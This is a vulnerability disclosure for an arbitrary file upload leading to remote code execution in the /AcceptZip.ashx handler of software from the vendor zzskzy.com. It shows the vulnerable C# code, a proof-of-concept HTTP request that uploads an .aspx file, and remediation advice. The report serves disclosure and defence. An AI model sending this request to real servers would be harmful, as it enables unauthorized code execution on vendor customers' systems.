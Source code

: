![image-20250225200449108](./assets/image-20250225200449108.png)

# Vulnerability Report

## Vendor Homepage
http://www.zzskzy.com/

## Title: 
RCE in `ProcessRequest` Method

### Summary:
An arbitrary file upload To RCE vulnerability exists in the `ProcessRequest` method of the specified application. This vulnerability allows an attacker to upload malicious files to the server, potentially leading to remote code execution or other malicious activities.

### Affected Endpoint:
`/AcceptZip.ashx`

### Vulnerability Type:
Arbitrary File Upload To RCE

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    try
    {
        var ini = new Ini(context.Server.MapPath("~/set.ini"));
        var verson = ini.ReadValue("set", "ver");
        if (string.IsNullOrWhiteSpace(verson))
        {
            verson = "1.0";
        }
        else
        {
            var ver = decimal.Parse(verson) + 0.1m;
            verson = ver.ToString("##.0");
        }
        var file = context.Request.Files[0];
        var fileName = file.FileName;
        file.SaveAs(context.Server.MapPath("~/Down/"+verson + Path.GetExtension(fileName)));
        ini.Writue("set", "ver", verson);
        context.Response.Write("success");
    }
    catch (Exception ex)
    {
        context.Response.Write(ex.Message);
    }
}
```

### Proof of Concept (PoC):
```
POST /AcceptZip.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
The vulnerability allows an attacker to upload arbitrary files to the server. This can be exploited to upload malicious scripts, such as `.aspx` files, which can then be executed by accessing the uploaded file through the web server. This could lead to remote code execution, data theft, or other malicious activities, compromising the integrity and security of the server and its data.

### Recommendation:
1. **Validate File Types:** Implement strict validation on the file types that can be uploaded. Only allow specific, safe file types (e.g., images, documents) and reject all others.
2. **Sanitize File Names:** Ensure that uploaded file names are sanitized to prevent directory traversal attacks or the inclusion of special characters.
3. **Store Files Securely:** Save uploaded files in a directory that is not accessible via the web server to prevent direct access to uploaded files.
4. **Use a Whitelist Approach:** Implement a whitelist of allowed file extensions and MIME types.
5. **Scan Uploaded Files:** Use antivirus or security software to scan uploaded files for malware.
6. **Review and Patch Code:** Correct the typo in `ini.Writue` method to `ini.Write`.

### Conclusion:
The arbitrary file upload vulnerability in the `ProcessRequest` method poses a significant security risk. By following the provided recommendations, the risk of exploitation can be mitigated, enhancing the security of the application.

### References:
- OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Microsoft Secure Coding Guidelines: https://docs.microsoft.com/en-us/security/develop/secure-coding-guidelines
